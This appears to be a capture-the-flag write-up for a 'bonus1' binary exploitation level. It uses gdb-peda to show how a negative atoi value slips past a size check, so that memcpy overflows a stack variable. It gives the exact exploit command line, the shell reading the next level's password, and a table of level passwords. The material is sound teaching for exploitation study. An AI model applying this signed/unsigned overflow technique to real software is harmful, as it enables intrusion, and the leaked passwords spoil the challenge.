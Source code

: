 # Bonus1 - Exploit signed / unsigned types to bypass checks

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|        |                                                                    |
| ------ | ------------------------------------------------------------------ |
| bonus1 | `cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9` |
| bonus2 | `579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245` |

## Steps to resolve on VM

Note: We will use `gdb-peda`. You can setup peda with the script: [scripts/installPeda.sh](../../scripts/installPeda.sh)

Execute the binary

```shell
~/bonus1
> Segmentation fault (core dumped)

~/bonus1 a
```

It takes a least one parameter.

Lets debug the binary

```shell
(gdb) info functions
0x08048424  main
```

See our assembly interpretation in [source file](../source.c)

The usage is: "./bonus1 (number < 10) string"

We can see the number is evaluated twice. It has to be smaller than 10.
Then this number is multiplied by 4.

The second comparison, just after a `memcpy`, checks the same number equals 1464814662.

The number is stored in `esp+0x3c` and the `memcpy` destination is stored in `esp+0x14`

```shell
gdb-peda$ p 0x3c - 0x14
  $2 = 0x28
gdb-peda$ p/d0x28
  $3 = 40
```

It means there is 40 bytes between them.
Unfortunately, we can not write directly more than 36 bytes (9 \* 4) in `memcpy`.

To overwrite the number, we have to write 40 characters + 4 bits for the value `0x574f4c46` => 44 bits.

As `memcpy` takes a `size_t` (unsigned) and `atoi` returns an int, we can use negatives values, to pass the first comparison and then override the number value.

We need 44 chars. Lets cast -44 as unsigned int and divide by 4 the result.

```shell
gdb-peda$ p /u -44
  $4 = 4294967252
gdb-peda$ p /d 4294967252 / 4
  $5 = 1073741813
```

Finally we can build the exploit and get the pass.

```shell
~/bonus1 -1073741813 `python -c 'print "A" * 40 + "\x46\x4c\x4f\x57"'`
$ cat /home/user/bonus2/.pass
  579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

---

## Sources

### C

- [Man atoi](https://linux.die.net/man/3/atoi)
- [Man memcpy](https://linux.die.net/man/3/memcpy)
- [Man execl](https://linux.die.net/man/3/execl)

